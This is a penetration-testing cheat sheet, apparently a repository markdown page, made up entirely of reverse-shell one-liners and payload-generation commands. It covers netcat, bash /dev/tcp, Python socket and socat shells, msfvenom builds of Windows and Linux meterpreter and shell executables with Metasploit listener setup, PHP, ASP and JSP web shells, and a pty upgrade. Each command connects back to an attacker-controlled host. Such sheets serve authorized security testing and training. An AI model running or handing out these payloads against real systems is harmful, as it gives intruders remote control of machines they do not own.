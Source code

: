 ### Netcat
```
nc -e /bin/sh $IP $PORT
```

### Bash
```
bash -i >& /dev/tcp/192.168.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("$IP",$PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

### Socat
```
socat tcp-connect:192.168.0.5:4444 system:/bin/sh
```

## Meterpreter

### Windows 

#### Standard meterpreter

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=$IP LPORT=$PORT -f exe -o shell_reverse.exe

//attacker machine
use exploit/multi/handler
set payload windows/meterpreter/reverse_tcp
```

#### Windows meterpreter non-staged payload

```
msfvenom -p windows/shell_reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o shell_reverse_tcp.exe

//attacker machine
use exploit/multi/handler
set payload windows/shell_reverse_tcp

```

#### Windows meterpreter staged payload

```
msfvenom -p windows/shell/reverse_tcp LHOST=196.168.0.101 LPORT=445 -f exe -o staged_reverse_tcp.exe

//attacker machine
use exploit/multi/handler
set payload windows/shell/reverse_tcp
```


### Linux
```
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=192.168.1.101 LPORT=443 -f elf > shell.elf

//attacker machine
use exploit/multi/handler
set payload linux/x86/meterpreter/reverse_tcp
```

### Meterpreter Web Payloads

#### PHP
```
msfvenom -p php/meterpreter_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.php
```

#### ASP
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> LPORT=<PORT> -f asp > shell.asp
```

#### JSP
```
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > example.jsp
```


#### INTERACTIVE SHELL
```
python -c 'import pty; pty.spawn("/bin/bash")'
```

